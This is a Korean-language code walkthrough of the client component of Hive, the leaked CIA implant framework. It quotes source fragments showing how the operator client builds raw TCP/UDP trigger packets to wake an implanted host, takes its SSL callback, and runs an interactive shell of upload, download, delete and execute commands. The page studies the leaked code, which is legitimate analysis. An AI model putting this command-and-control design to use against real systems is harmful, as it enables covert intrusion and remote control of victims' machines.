

# client



Hive의 기능은 크게 Implanted Host로 부터 Beacon을 전송받는 것, 그리고 Host와 Interactive 통신을 하는 것 두가지가 있다.

client 파트는 Host와 세션을 구성하여 통신하는 역할을 한다.

Host와 통신할 때는 먼저 트리거(trigger)를 전송하여야 한다. 트리거가 전송되고 나면 Host는 callback 메세지를 보내고, Host와 SSL 세션을 연결하여 통신한다.

client 기준으로 사용되는 타 장치에 대한 용어

- implanted host = server
- listener = nc.sh = implanted host로부터 beacon을 받는 곳, client와 동일해도 됨


---

### Main Structs

__trigger_params__ (in [trigger.h](https://github.com/ryanking13/Vault-8-Hive/blob/master/hive-repository/client/trigger.h))

```c
struct trigger_params
{
	int		padding;
	char		*callback_ip;
	char		*callback_port;
	char		*target_ip;
	char		*raw_port;
	char		*type;
	unsigned char	triggerKey[ID_KEY_HASH_SIZE];
};
```

__proc_vars__ (in [hclient.h](https://github.com/ryanking13/Vault-8-Hive/blob/master/hive-repository/client/hclient.h#L60))

```c
/* Process Structures and Unions */
struct proc_vars {
	unsigned char		command;        /* One of the ten commands the user wants the program to perform */
	char				*progname;      /* filename of binary executable */
	char				*script;        /* filename of the script file */
	char 				**cstring;      /* vector maintains a list of commands to perform in automatic mode */
	int					tcpfd;          /* file descriptor of the TCP socket */
	unsigned short		interactive;    /* indicates interactive or automatic mode */
	unsigned short		ignore;         /* ignore errors during automatic mode */
	unsigned short		listen;         /* indicates a listen or connect socket */
	struct sockaddr_in	remote;         /* socket info for remote end of connection */
	struct sockaddr_in	local;          /* socket info for local end of connection */
	unsigned int		trig_delay;		/* trigger delay */
	unsigned short 		trigger;		/* indicates whether client will trigger or not*/
};
```

----

## Program Flow

[__main.c__](https://github.com/ryanking13/Vault-8-Hive/blob/master/hive-repository/client/main.c)

프로그램이 시작되는 부분

```c
struct trigger_params	trigger_args;
...
struct proc_vars	pvars;
```

프로그램의 동작을 정하기 위한 두 struct가 선언되고,

```c
while ( ( optval = getopt(argc, argv, ":a:d:k:m:p:P:r:t:")) != -1 )
...

  case 'p':
				port = atoi(optarg);

				if ( !mode_set ) pvars.listen = YES;
				pvars.local.sin_port = htons(port);

				trigger_args.callback_port = asloc( optarg );
				break;

...
```

argv를 파싱하여 두 스트럭트에 값을 할당한다.

```c
Run( &pvars, &trigger_args );
```

그 후 두 struct를 인자로 `Run()` 함수를 호출한다.

---

[__modes.c__](https://github.com/ryanking13/Vault-8-Hive/blob/master/hive-repository/client/modes.c)

```c
void Run( struct proc_vars* info, struct trigger_params *trigger_args )
...

// if we aren't listening, then we don't need to take the lock.
	// taking the lock allows us to set-up the listening socket before sending the trigger packet(s)
	if ( info->listen == YES )
	{
		DLX(2, printf( " Requesting pthread_mutex_lock \n"));
		pthread_mutex_lock( &tlock );
		DLX(2, printf( " pthread_mutex_lock locked\n"));
	}

	// to avoid race condition where main thread exits before trigger is set,
	// don't call tigger_start() as a thread
	if ( info->trigger == YES && info->listen == NO )
	{
		DLX(2, printf( " Trigger mode set\n"));
		trigger_start ( (void *) trigger_args );
		return;
	}

	if ( info->trigger == YES && info->listen == YES )
	{
		DLX(2, printf( " Trigger mode set\n"));
		make_thread( trigger_start, (void *) trigger_args );
	}
...
```

`Run()` 함수에서는 proc_vars의 trigger==YES이면 `trigger_start()`함수를 호출한다.

trigger와 listen이 구분되어 있는 이유는 두 개의 client가 별도로 동작할 수 있기 때문이다. 그 경우 trigger를 보내는 client와 Host가 보내는 콜백 메세지를 listen하는 client가 다르다.

```c
  crypt_context		*cp;		// Command post connection context pointer

  ...

  // from a SSL/TLS perspective, the client acts like a SSL server
  if ((cp = crypt_setup_server(&info->tcpfd)) == NULL )
  {
  	DLX(2, printf( " ERROR: crypt_setup_server() failed\n"));
  	return;
  }

  ...

  // The following if statement used to have an else clause to call AutomaticMode() which did nothing.
  if ( info->interactive == YES ) {
  	InteractiveMode(info, cp);
  }
...
```

listen 모드일 경우, interactive==YES이면 `InteractiveMode()` 함수를 실행한다.

---

### trigger 전송

[__trigger.c__](https://github.com/ryanking13/Vault-8-Hive/blob/master/hive-repository/client/trigger.c)

```c
/*!
 * dieselt.c
 *
 * @version 0.1 (October 1, 2007)
 *
 * Trigger component of the DieSel project.
 *
 * @author Matt Bravo
 *
 */
 ...
void *trigger_start (void *arg){

  Payload p;
  trigger_info ti;

  ...

  struct trigger_params *t_info = (struct trigger_params *) arg;

  ...

  if (parse_options (t_info, &ti) != SUCCESS) {
  		printf ("    %s%s%s\n\n", RED, triggerParseOptions, RESET);
  		exit(-1);
  	}
  }
```

trigger.c는 2007년 타 기관에서 만든 것을 약간 수정한 것으로 추정된다.

따라서 호환성을 위하여 `parse_options()` 함수를 이용해 기존에 사용하던 trigger_params struct를 trigger_info struct로 캐스팅한다.

[__trigger_info__](https://github.com/ryanking13/Vault-8-Hive/blob/master/hive-repository/client/trigger_protocols.h#L70)

```c
/*! \struct trigger_info
	\brief	The struct containing trigger control parameters

	\param Payload* p	- The 12 byte payload of the trigger
	\param trigger_info* ti	- The struct containing trigger-specific parameters
*/
typedef struct __attribute__((packed))
{
	uint32_t	trigger_type;			// one of the T_<trigger type> defined values
	in_addr_t	target_addr;			// the destination we are triggering, always in net order
	in_addr_t	callback_addr;			// the callback for the triggered application, always in net order
	uint16_t	callback_port;			// callback port, passed to TBOT, always in net order
	uint16_t	trigger_port;			// for raw triggers, the TCP or UDP port
	unsigned char	triggerKey[ID_KEY_HASH_SIZE];	// SHA-1 of ID key
	uint8_t		icmp_error_code;		// used for ICMP error triggers (the opcode of a payload)
} trigger_info;
```

두 struct의 구조는 거의 동일하다.

```c
  Payload p;
// create an application specific payload from the trigger info
	trigger_info_to_payload (&p, &ti);
```

trigger_info로부터 Payload struct를 생성한다.

[__Payload__](https://github.com/ryanking13/Vault-8-Hive/blob/master/hive-repository/client/trigger_protocols.h#L55)
```c
/*! \struct Payload
 *
 * 	\brief	Payload data structure
 *
 * 	\param in_addr_t callback_addr	- Call-back IP address
 * 	\param uint16_t callback_port	- Call-back port
 * 	\param uint8_t trigger_key	- Trigger key (SHA-1)
 * 	\param uint16_t crc		- CRC of payload
 */
typedef struct __attribute__((packed))
{
	uint8_t		seed;				// Obfuscation seed used for triggers other than raw TCP/UDP.
	in_addr_t	callback_addr;			// the callback for the triggered application, always in net order
	uint16_t	callback_port;			// callback port, passed to TBOT, always in net order
	unsigned char	triggerKey[ID_KEY_HASH_SIZE];	// ID Key hash
	uint16_t	crc;				// CRC of this payload
} Payload;
```

Payload struct는 실제로 전송될 패킷으로 trigger_info의 일부 인자와, 검사를 위한 crc가 포함되어 있다.

```c
// find and send the correct trigger
	switch (ti.trigger_type) {
    ...

    case T_RAW_TCP:
		  if (trigger_raw (&p, &ti) != SUCCESS) {
    ...

    case T_RAW_UDP:
		  if (trigger_raw (&p, &ti) != SUCCESS) {
    ...
```

그 후 trigger_type에 따른 trigger를 전송한다.

trigger.c 코드 상에는 ping, icmp, tftp, dns 등도 남아 있지만 hive에서는 tcp와 udp 만을 trigger_type으로 사용한다.


[__trigger_raw()__](https://github.com/ryanking13/Vault-8-Hive/blob/master/hive-repository/client/trigger_protocols.c#L832)

```c
unsigned int trigger_raw (Payload *p, trigger_info *ti)
...
  switch (ti->trigger_type) {

  case T_RAW_TCP:
    rv = send_TCP_data (s_addr, d_addr, s_port, d_port, packet, packet_size);
    break;

  case T_RAW_UDP:
    rv = send_UDP_data (s_addr, d_addr, s_port, d_port, packet, packet_size);
    break;
```

`trigger_raw()` 함수는 단순히 패킷의 요소를 파싱하여 전송하는 함수다.

`send_TCP_data()`, `send_UDP_data()` 역시 단순히 소켓 프로그래밍 함수인데([hive_network.c](https://github.com/ryanking13/Vault-8-Hive/blob/master/hive-repository/client/trigger_network.c))특이한 것은 이 두 함수는 기존에 만들어져있던 것을 쓰지 않고 hive 용으로 따로 코딩하였다.

---

### interactive mode

[__InteractiveMode()__](https://github.com/ryanking13/Vault-8-Hive/blob/master/hive-repository/client/modes.c#L103)
```c
void InteractiveMode(struct proc_vars* info, crypt_context *ioc)
{
   char cline[525];
   char** argv;


   while ((info->command != EXIT) && (info->command != SHUTDOWNBOTH)) {
      memset(cline, 0, 525);
      fprintf(stdout, "%s> ", info->progname);
      (void) fgets(cline, 525, stdin);
      cline[strlen(cline) - 1] = '\0';
      argv = BuildArgv(cline);
      if ((argv != NULL) && (argv[0] != '\0')) {
         CommandToFunction(argv, info, ioc);
      }
      FreeArgv(argv);
   }

}
```

커맨드라인으로부터 명령어(command)를 읽어와서 `CommandToFunction()`을 실행한다.

---

[__functions.c__](https://github.com/ryanking13/Vault-8-Hive/blob/master/hive-repository/client/functions.c)

```c
int CommandToFunction(char **argv, struct proc_vars *info, crypt_context *ioc)
  ...
```

`CommandToFunction()` 함수는 유저가 입력한 커맨드에 따라 적절한 함수를 실행한다.

커맨드의 종류는 아래와 같다.

- Upload ( ul, up )
- Download ( dl, do )
- Remove ( del )
- Execute ( exe )
- StopSession ( exit, q )
- Help ( shut )

```c
void SendCommand(struct send_buf *sbuf, REPLY *rbuf, struct proc_vars *info)
  ...
```

`SendCommand()` 함수에서 최종적으로 메세지를 전달한다.
